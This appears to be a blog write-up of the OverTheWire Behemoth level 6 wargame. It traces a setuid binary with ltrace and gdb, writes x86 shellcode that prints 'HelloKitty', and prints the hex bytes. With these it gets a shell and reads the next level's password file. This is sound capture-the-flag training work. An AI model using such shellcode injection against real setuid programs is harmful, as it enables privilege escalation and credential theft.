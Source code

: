 ```yaml
---
layout: post
title: OverTheWire - Behemoth 6
---
```


Site: http://overthewire.org/wargames/behemoth/ <br>
Level: 6<br>
Situation: Custom Shellcode Exercise?<br><br>

This challenge had potential to be multistage and I’ll be a bit challenging. However it was much simpler then it first appeared.

We start in the usual fashion. Create our working directory, find the file arch type, run the application.

{% highlight bash %}
behemoth6@melinda:~$ mkdir /tmp/bh6
behemoth6@melinda:~$ cd /tmp/bh6
behemoth6@melinda:/tmp/bh6$ 
{% endhighlight %}

{% highlight bash %}
behemoth6@melinda:/tmp/bh6$ file /behemoth/behemoth6
/behemoth/behemoth6: setuid ELF 32-bit LSB  executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=86bc5c0766b602cb1d1e85955eca6360ae5b5ac6, not stripped
{% endhighlight %}

{% highlight bash %}
behemoth6@melinda:/tmp/bh6$ /behemoth/behemoth6
Incorrect output.
{% endhighlight %}

So far nothing to interesting lets go ahead and ltrace the application.

{% highlight bash %}
behemoth6@melinda:/tmp/bh6$ ltrace /behemoth/behemoth6
__libc_start_main(0x804857d, 1, 0xffffd784, 0x8048660 <unfinished ...>
popen("/behemoth/behemoth6_reader", "r")           = 0x804b008
malloc(10)                                         = 0x804b0b8
fread(0x804b0b8, 10, 1, 0x804b008)                 = 1
pclose(0x804b008 <no return ...>
--- SIGCHLD (Child exited) ---
<... pclose resumed> )                             = 0
strcmp("Couldn't o", "HelloKitty")                 = -1
puts("Incorrect output."Incorrect output.
)                          = 18
+++ exited (status 0) +++
{% endhighlight %}

We see two things here.

1. Another application has been opened using popen. "behemoth6_reader"

2. It is getting the return value and using it in a strcmp to "HelloKitty".

Now let’s go ahead and run a file and ltrace on the behemoth6_reader.

{% highlight bash %}
behemoth6@melinda:/tmp/bh6$ file /behemoth/behemoth6
/behemoth/behemoth6: setuid ELF 32-bit LSB  executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=86bc5c0766b602cb1d1e85955eca6360ae5b5ac6, not stripped
{% endhighlight %}

{% highlight bash %}
behemoth6@melinda:/tmp/bh6$ ltrace /behemoth/behemoth6_reader
__libc_start_main(0x80485ad, 1, 0xffffd774, 0x80486c0 <unfinished ...>
fopen("shellcode.txt", "r")                        = 0
puts("Couldn't open shellcode.txt!"Couldn't open shellcode.txt!
)               = 29
+++ exited (status 0) +++
{% endhighlight %}
 
It is attempting to open a text file called shellcode.txt. Let’s go ahead and create this file and see what is returned.

{% highlight bash %}
behemoth6@melinda:/tmp/bh6$ ltrace /behemoth/behemoth6_reader
__libc_start_main(0x80485ad, 1, 0xffffd774, 0x80486c0 <unfinished ...>
fopen("shellcode.txt", "r")                        = 0x804b008
fseek(0x804b008, 0, 2, 0x8048712)                  = 0
ftell(0x804b008, 0, 2, 0x8048712)                  = 0
rewind(0x804b008, 0, 2, 0x8048712)                 = 0xfbad2488
malloc(0)                                          = 0x804b170
fread(0x804b170, 0, 1, 0x804b008)                  = 0
fclose(0x804b008)                                  = 0
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
{% endhighlight %}

The file is opened and read however a segfault occurs. So we open it up in GDB to see what is going on.

{% highlight bash %}
(gdb) set disassembly-flavor intel
(gdb) disassemble main
Dump of assembler code for function main:
-- SNIP --
   0x08048672 <+197>:	movzx  eax,BYTE PTR [eax]
   0x08048675 <+200>:	cmp    al,0xb
   0x08048677 <+202>:	jne    0x8048691 <main+228>
   0x08048679 <+204>:	mov    DWORD PTR [esp],0x804877d
   0x08048680 <+211>:	call   0x8048450 <puts@plt>
   0x08048685 <+216>:	mov    DWORD PTR [esp],0x1
   0x0804868c <+223>:	call   0x8048470 <exit@plt>
   0x08048691 <+228>:	add    DWORD PTR [esp+0x1c],0x1
   0x08048696 <+233>:	mov    eax,DWORD PTR [esp+0x1c]
   0x0804869a <+237>:	cmp    eax,DWORD PTR [esp+0x24]
   0x0804869e <+241>:	jl     0x8048668 <main+187>
   0x080486a0 <+243>:	mov    eax,DWORD PTR [esp+0x28]
   0x080486a4 <+247>:	mov    DWORD PTR [esp+0x2c],eax
   0x080486a8 <+251>:	mov    eax,DWORD PTR [esp+0x2c]
   0x080486ac <+255>:	call   eax
   0x080486ae <+257>:	mov    eax,0x0
   0x080486b3 <+262>:	leave  
   0x080486b4 <+263>:	ret    
End of assembler dump.
-- SNIP --
{% endhighlight %}

After disassembly we can see that in fact our file is loaded into memory. More interestingly is the call to EAX. We break here and see what is being called. We add "aaa" to our shellcode.txt to see if it is called and create a breakpoint on the call EAX address.

{% highlight bash %}
(gdb) run
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /games/behemoth/behemoth6_reader 

Breakpoint 3, 0x080486ac in main ()
(gdb) x/s $eax
0x804b170:	"aaa\n"
{% endhighlight %}

As we thought would happen, it is calling EAX code directly. To get the output we need we will write some shell code that returns the string "HelloKitty".

{% highlight asm %}
;HelloKitty.asm
[SECTION .text]

global _start

_start:

        jmp short ender

        starter:

        xor eax, eax    ;clean up the registers
        xor ebx, ebx
        xor edx, edx
        xor ecx, ecx

        mov al, 4       ;syscall write
        mov bl, 1       ;stdout is 1
        pop ecx         ;get the address of the string from the stack
        mov dl, 10       ;length of the string
        int 0x80

        xor eax, eax
        mov al, 1       ;exit the shellcode
        xor ebx,ebx
        int 0x80

        ender:
        call starter	;put the address of the string on the stack
        db 'HelloKitty'

{% endhighlight %}

We need to compile this and link for i386. 

{% highlight bash %}
behemoth6@melinda:/tmp/bh6$ nasm -f elf32 HelloKitty.asm 
behemoth6@melinda:/tmp/bh6$ ld -m elf_i386 -s -o HelloKitty HelloKitty.o
{% endhighlight %}

To get the shell code we simply use objdump and manually copy out the values.

{% highlight bash %}
behemoth6@melinda:/tmp/bh6$ objdump -d HelloKitty

HelloKitty:     file format elf32-i386


Disassembly of section .text:

08048060 <.text>:
-- SNIP --
 8048060:	eb 19                	jmp    0x804807b
 8048062:	31 c0                	xor    %eax,%eax
 8048064:	31 db                	xor    %ebx,%ebx
 8048066:	31 d2                	xor    %edx,%edx
 8048068:	31 c9                	xor    %ecx,%ecx
 804806a:	b0 04                	mov    $0x4,%al
 804806c:	b3 01                	mov    $0x1,%bl
 804806e:	59                   	pop    %ecx
 804806f:	b2 0a                	mov    $0xa,%dl
 8048071:	cd 80                	int    $0x80
-- SNIP --
{% endhighlight %}

After some modifying our shellcode is as follows.

{% highlight bash %}
\xeb\x19\x31\xc0\x31\xdb\x31\xd2\x31\xc9\xb0\x04\xb3\x01\x59\xb2\x0a\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80\xe8\xe2\xff\xff\xff\x48\x65\x6c\x6c\x6f\x4b\x69\x74\x74\x79
{% endhighlight %}

Now we insert that into shellcode.txt and we get the following.

{% highlight bash %}
behemoth6@melinda:/tmp/bh6$ /behemoth/behemoth6
Correct.
$ cat /etc/behemoth_pass/behemoth7
[OMITTED]
{% endhighlight %}

There is our password.
